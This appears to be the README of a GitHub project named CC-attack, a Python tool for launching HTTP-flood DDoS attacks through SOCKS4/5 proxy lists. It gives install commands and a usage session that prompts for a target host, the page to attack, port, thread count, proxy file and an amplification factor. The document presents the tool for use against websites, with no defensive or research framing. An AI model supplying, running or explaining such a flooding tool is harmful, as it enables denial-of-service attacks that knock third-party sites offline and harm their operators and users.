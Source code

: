       ____ ____        _   _   _             _
     / ___/ ___|      / \ | |_| |_ __ _  ___| | __
    | |  | |   _____ / _ \| __| __/ _` |/ __| |/ /
    | |__| |__|_____/ ___ \ |_| || (_| | (__|   <
     \____\____|   /_/   \_\__|\__\__,_|\___|_|\_\

# CC-attack ![](https://img.shields.io/badge/Version-1.2-brightgreen.svg) ![](https://img.shields.io/badge/license-MIT-blue.svg)
Use Socks5 proxy to ddos(Http-Flood) attack.

(It supports socks4 too.)

And now it is upgraded to python3 version.

# License

MIT License

## News

Now the script support https. :)

## Install

    pip3 install pysocks
    git clone https://github.com/Leeon123/CC-attack.git
    cd CC-attack

## Usage

If target = http://xxx.com/:

    python3 cc.py
    
      ____ ____        _   _   _             _
     / ___/ ___|      / \ | |_| |_ __ _  ___| | __
    | |  | |   _____ / _ \| __| __/ _` |/ __| |/ /
    | |__| |__|_____/ ___ \ |_| || (_| | (__|   <
     \____\____|   /_/   \_\__|\__\__,_|\___|_|\_\
    Python3 version 1.2
                                Cobed by Leeon123
    >---------------------------------------------<
                If you want to stop
               this script, pls just
                 close the window.
    >---------------------------------------------<
    > Host/Ip:xxx.com
    > Https(y/n):n
    > Page you want to attack:/
    > Port(Https default is 443):80
    > Threads:300
    > Proxy file path(proxy.txt):(Your socks5 list)
    > Number Of Proxies:(your proxies number)
    > Input the Magnification:(50-100)
